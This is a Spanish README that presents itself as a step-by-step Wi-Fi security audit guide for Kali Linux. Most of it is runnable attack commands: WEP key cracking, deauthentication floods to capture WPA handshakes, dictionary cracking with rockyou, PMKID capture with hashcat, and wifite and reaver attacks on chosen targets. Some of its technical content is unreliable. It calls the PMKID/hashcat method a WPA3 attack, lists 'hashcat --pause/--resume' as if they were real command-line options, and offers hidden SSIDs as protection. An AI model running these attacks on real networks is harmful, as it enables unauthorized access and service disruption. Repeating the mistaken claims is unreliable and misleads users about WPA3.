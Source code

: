 # Seguridad-de-redes
Prueba de la seguridad de redes wifi

Aquí tienes la guía completa y detallada para probar la seguridad de redes Wi-Fi (WEP, WPA/WPA2 y WPA3) con Kali Linux en formato README.md. La estructura está optimizada para su uso en Confluence o cualquier repositorio.

README.md - Auditoría de Seguridad Wi-Fi con Kali Linux

📝 Descripción

Este documento proporciona una guía paso a paso para auditar la seguridad de redes Wi-Fi utilizando Kali Linux. Se cubren los protocolos WEP, WPA/WPA2, y WPA3, detallando los comandos y herramientas necesarios para realizar ataques de prueba de penetración de forma ética y legal.

⚠️ Nota Legal: Solo realiza estas pruebas en redes de tu propiedad o con autorización explícita. El uso no autorizado es ilegal.

🧩 Requisitos Previos
	•	Sistema Operativo: Kali Linux (última versión)
	•	Adaptador de Red Wi-Fi: Compatible con modo monitor (ej. ALFA AWUS036ACH)
	•	Herramientas Necesarias:
	•	aircrack-ng para WEP y WPA/WPA2
	•	hcxtools y hashcat para WPA3
	•	wifite para ataques automatizados

Instalación de Herramientas

sudo apt update && sudo apt upgrade -y
sudo apt install aircrack-ng hcxtools hashcat reaver wifite

🗂️ Índice
	1.	Configuración Inicial
	2.	Auditoría de Redes WEP
	3.	Auditoría de Redes WPA/WPA2
	4.	Auditoría de Redes WPA3
	5.	Uso de Herramientas Automatizadas
	6.	Recomendaciones de Seguridad

✅ 1. Configuración Inicial

1.1 Activar Modo Monitor

El modo monitor permite capturar paquetes de red. Abre una terminal y ejecuta:

sudo airmon-ng check kill       # Detiene procesos que interfieren
sudo airmon-ng start wlan0      # Activa el modo monitor en wlan0
iwconfig                        # Verifica que wlan0mon está activo

💻 2. Auditoría de Redes WEP

Aunque WEP es obsoleto, aún puede encontrarse en algunas redes antiguas. Para este ataque usaremos aircrack-ng.

2.1 Escaneo de Redes WEP

sudo airodump-ng wlan0mon

Apunta el BSSID y el CANAL de la red con cifrado WEP.

2.2 Captura de Paquetes

sudo airodump-ng -c [CANAL] --bssid [BSSID] -w captura wlan0mon

	•	-c [CANAL] → Canal de la red.
	•	--bssid [BSSID] → Filtra paquetes solo de esa red.
	•	-w captura → Guarda los datos en el archivo captura.

2.3 Inyección de Paquetes ARP

sudo aireplay-ng -3 -b [BSSID] wlan0mon

Este comando acelera la captura de IVs (vectores de inicialización).

2.4 Cracking de la Clave

Una vez capturados suficientes IVs, descifra la clave:

sudo aircrack-ng captura.cap

Si la clave es débil, la mostrará en formato hexadecimal:

KEY FOUND! [ 12:34:56:78:9A:BC ]

🔒 3. Auditoría de Redes WPA/WPA2

WPA/WPA2 son más seguros, pero siguen siendo vulnerables a ataques de fuerza bruta si la contraseña es débil.

3.1 Escaneo de Redes WPA/WPA2

sudo airodump-ng wlan0mon

Apunta el BSSID, CANAL y nombre de la red.

3.2 Captura del Handshake

sudo airodump-ng -c [CANAL] --bssid [BSSID] -w handshake wlan0mon

Mantén este comando ejecutándose y en otra terminal fuerza la desconexión de un cliente para capturar el handshake:

sudo aireplay-ng -0 10 -a [BSSID] wlan0mon

	•	-0 10 → Envía 10 paquetes de desautenticación.
	•	-a [BSSID] → Desconecta dispositivos de esa red.

Cuando captures el handshake, verás una notificación en la parte superior de la terminal.

3.3 Cracking del Handshake

sudo aircrack-ng handshake.cap -w /usr/share/wordlists/rockyou.txt

	•	handshake.cap → Archivo de captura.
	•	rockyou.txt → Diccionario preinstalado en Kali (ubicado en /usr/share/wordlists).

🧩 4. Auditoría de Redes WPA3

WPA3 es más seguro, pero puedes probar su vulnerabilidad utilizando hcxdumptool y hashcat.

4.1 Captura del PMKID

sudo hcxdumptool -i wlan0mon --enable_status=1 -o wpa3capture.pcapng

Este comando captura el PMKID si está disponible.

4.2 Conversión del Archivo para Hashcat

sudo hcxpcapngtool -o wpa3hash.22000 wpa3capture.pcapng

	•	-o wpa3hash.22000 → Genera un archivo compatible con Hashcat en formato 22000.

4.3 Cracking del Hash con Hashcat

sudo hashcat -m 22000 wpa3hash.22000 /usr/share/wordlists/rockyou.txt --force

	•	-m 22000 → Tipo de hash para WPA3/WPA2.
	•	--force → Obliga el uso de CPU si no hay GPU.

Puedes pausar y reanudar el proceso de cracking:

sudo hashcat --pause
sudo hashcat --resume

⚙️ 5. Uso de Herramientas Automatizadas

Para facilitar las pruebas, puedes usar Wifite o Fern Wi-Fi Cracker.

5.1 Ataque Automático con Wifite

sudo wifite

	•	Detecta y ataca automáticamente redes WEP, WPA/WPA2 y WPA3.
	•	Solo requiere seleccionar la red objetivo.

5.2 Ataque a WPS con Reaver

Si el router tiene WPS habilitado, usa Reaver:

sudo reaver -i wlan0mon -b [BSSID] -vv

	•	-i wlan0mon → Interfaz en modo monitor.
	•	-b [BSSID] → MAC de la red objetivo.
	•	-vv → Muestra información detallada.

🛡️ 6. Recomendaciones de Seguridad

Para proteger tu red Wi-Fi, aplica las siguientes medidas:
	•	Cifrado WPA3: Si es posible, usa WPA3.
	•	Contraseñas Fuertes: Utiliza contraseñas largas con letras, números y símbolos.
	•	Desactiva WPS: El protocolo WPS es vulnerable; desactívalo en la configuración del router.
	•	Filtrado MAC: Limita el acceso solo a dispositivos conocidos.
	•	SSID Oculto: Evita que tu red aparezca en búsquedas públicas.
	•	Actualiza el Firmware: Mantén el router actualizado para prevenir vulnerabilidades conocidas.

🗂️ Estructura del Proyecto

.
├── README.md
├── scripts
│   ├── monitor_mode.sh
│   ├── wpa_attack.sh
│   ├── wpa3_attack.sh
│   └── wep_attack.sh
├── wordlists
│   └── custom_wordlist.txt
└── results
    ├── handshake.cap
    └── wpa3hash.22000

🧑‍💻 Autor
	•	Nombre: Karim
	•	Perfil Profesional: Experto en redes y seguridad informática
	•	Contacto: [Correo electrónico] | [LinkedIn] | [GitHub]

📜 Licencia

Este proyecto está disponible bajo la licencia MIT. Consulta el archivo LICENSE para más detalles.
